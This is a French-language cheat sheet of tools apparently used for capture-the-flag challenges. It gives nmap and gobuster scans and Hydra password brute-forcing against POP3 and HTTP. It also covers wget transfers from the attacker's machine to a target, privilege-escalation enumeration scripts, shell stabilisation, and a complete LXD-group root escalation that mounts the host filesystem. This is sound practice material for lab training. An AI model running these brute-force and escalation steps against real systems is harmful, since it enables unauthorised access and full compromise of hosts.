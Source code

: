 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## 1. nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## 2. gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## 3. Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## 4. Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## 5. Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## 6. Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```

## 7. Escalade de privilèges via LXD

Basé sur cet article: [LXC/LXD (Linux Container/Daemon) Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

Vérifiez que l'utilisateur sur la machine cible fait partie du groupe lxd

```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

### 7.1 Sur la machine Kali

Préparez un conteneur linux et lancer un serveur http

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

### 7.2 Sur la machine cible

Téléchargez le fichier \<alpine tar.gz> et importez-le comme image dans LXC

```
cd /dev/shm
wget http://<local-ip>:8000/<alpine tar.gz>
lxc image import ./<alpine tar.gz> --alias myimage
lxc image list
```

Créez un nouveau conteneur '**mycontainer**' basé sur l'image '**myimage**' qui vient d'être importée.

```
lxc init myimage mycontainer -c security.privileged=true
```

En cas de message **“**&#x4E;o storage pool found. Please create a new storage poo&#x6C;**.”** initialisez LXD d'abord et relancez la commande.

```
lxd init
```

Montez (mount) le répertoire principal / dans le répertoire /mnt/root du conteneur 'mycontainer' que vous venez de créer

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Démarrez votre conteneur

```
lxc start mycontainer
```

Lancez un Shell (note: l'image Alpine ne supporte qu'un shell sh)

```
lxc exec mycontainer /bin/sh
```

Vérifiez que vous êtes bien root

```
whoami
```

Rendez-vous dans le répertoire principal de la machine cible monté en /mnt/root et accédez en tant que root à toutes les données de la machine

```
cd /mnt/root

```

### 8. Outils Stéganographie

Voici un lien vers une liste d'outils de stéganographie que j'utilise souvent

[https://medium.com/@ria.banerjee005/steganography-tools-techniques-bba3f95c7148](https://medium.com/@ria.banerjee005/steganography-tools-techniques-bba3f95c7148)

On y retrouve notamment **strings**, **steghide**, **stegseek** et autres **exiftools**
